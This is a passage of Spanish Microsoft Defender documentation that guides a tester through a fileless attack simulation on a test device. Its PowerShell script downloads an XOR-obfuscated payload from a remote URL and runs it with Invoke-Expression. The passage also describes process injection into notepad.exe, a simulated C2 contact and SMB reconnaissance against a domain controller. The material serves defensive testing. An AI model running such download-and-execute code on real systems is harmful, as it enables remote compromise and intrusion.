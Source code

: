 Para ejecutar la simulación del escenario de ataque:

1. Inicie sesión en el dispositivo de prueba con la cuenta de usuario de prueba.

2. Abra una Windows PowerShell en el dispositivo de prueba.

3. Copie el siguiente script de simulación:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Si abre este documento en un explorador web, es posible que tenga problemas para copiar el texto completo sin perder determinados caracteres ni introducir saltos de línea adicionales. Descargue este documento y ábralo en Adobe Reader.

4. En el símbolo del sistema, pegue y ejecute el script copiado.

> [!NOTE]
> Si ejecuta PowerShell con el protocolo de escritorio remoto (RDP), use el comando Escribir texto del Portapapeles en el cliente RDP porque es posible que la tecla rápida **CTRL-V** o el método de clic y pegado con el botón secundario no funcionen. En ocasiones, las versiones recientes de PowerShell tampoco aceptarán ese método, es posible que primero tenga que copiarlo en el Bloc de notas en la memoria, copiarlo en la máquina virtual y, a continuación, pegarlo en PowerShell.

Unos segundos más tarde, <i>notepad.exe</i> se abrirá. Se insertará un código de ataque simulado en notepad.exe. Mantenga abierta la instancia del Bloc de notas generada automáticamente para experimentar el escenario completo.

El código de ataque simulado intentará comunicarse con una dirección IP externa (simulando el servidor C2) y, a continuación, intentará reconocimiento con el controlador de dominio a través de SMB.

Verá un mensaje que se muestra en la consola de PowerShell cuando se complete este script.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Para ver la característica De incidentes y respuesta automatizados en acción, mantenga el notepad.exe proceso abierto. Verá El incidente automatizado y la respuesta detienen el proceso del Bloc de notas.

## <a name="investigate-an-incident"></a>Investigar un incidente

> [!NOTE]
> Antes de ayudarle a través de esta simulación, vea el siguiente vídeo para ver cómo la administración de incidentes le ayuda a crear las alertas relacionadas como parte del proceso de investigación, donde puede encontrarla en el portal y cómo puede ayudarle en las operaciones de seguridad:
